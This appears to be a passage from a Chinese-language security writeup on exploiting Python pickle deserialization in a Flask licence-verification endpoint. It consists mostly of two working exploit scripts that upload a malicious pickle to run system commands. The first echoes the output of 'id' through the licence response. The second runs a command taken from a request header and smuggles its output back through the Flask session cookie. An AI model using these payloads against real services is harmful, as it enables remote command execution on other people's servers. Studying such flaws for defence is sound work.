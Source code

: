 也可以根据当前场景来构造一个可回显的exp，代码如下：  
```
import pickle
import requests


class Payload:
    def __reduce__(self):
        return (eval, ("__import__('json').loads('{\"name\":\"'+tool.encrypt(__import__('os').popen('id').read().replace('\\n','\\\\n'))+'\",\"expiry\":\"omq3GOM1yE9OC3D394aeo3742LTnWwmxo2ewXdt7NXo=\"}')",))


serialized = pickle.dumps(Payload())
file = {'lic': ('lic.bin', serialized, 'application/binary')}
res = requests.post('http://127.0.0.1:8888/verifyLic', files=file,proxies={'http':'127.0.0.1:8080'})
print(res.text)

```  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/TegOSv0yja6mZV7YM6KjLZK6orbXlWwKeyvTDbGxrvxf12o27GScAXanmlPrALRl4LUxRsH32RHKTdUkiaNTceg/640?wx_fmt=jpeg&from=appmsg "")  
  
这个回显利用场景比较有限，依赖flask中方法所自定义的返回，还需要根据正确的业务逻辑来编写payload才能实现回显，不推荐。  
  
推荐的做法是操作Response，不过这个场景中，首先就是当反序列化直接执行命令后会走到except捕获的地方，不会抛出错误，同时重写了响应的body。其次是这里没有显式地定义Response，即便操作响应头，到后面也会被flask重写。  
  
跟踪flask源码发现在构建Response的时候会检查session是否为空，如果不为空的话会将session放到Response的cookie中去![](https://mmbiz.qpic.cn/mmbiz_jpg/TegOSv0yja6mZV7YM6KjLZK6orbXlWwKTUNVDSxCYrYy5vLU4rAtCCofFjleibBiaguULhm4VVcGjvjvKsqTaCAw/640?wx_fmt=jpeg&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/TegOSv0yja6mZV7YM6KjLZK6orbXlWwKia2PD1noEU1RfByNEnlAgfib8YHNeZ94llrIWXrvCIr6X4jl9qJLrsLQ/640?wx_fmt=jpeg&from=appmsg "")  
  
所以我们可以将回显放到session里面，然后从响应头里面的Cookie里面取得一个jwt，直接base64解码头部即可获得回显  
  
构造exp如下：  
```
import pickle
import requests

echo = '''from flask import current_app,sessioncurrent_app.secret_key = '1'session['vul'] = __import__('os').popen(request.headers.get('cmd')).read()'''

class Payload:
    def __reduce__(self):
        return (exec, (echo,))

serialized = pickle.dumps(Payload())
file = {'lic': ('lic.bin', serialized, 'application/binary')}
res = requests.post('http://127.0.0.1:8888/verifyLic', headers={'cmd': 'ls'}, files=file, proxies={'http': '127.0.0.1:8080'})


```  
  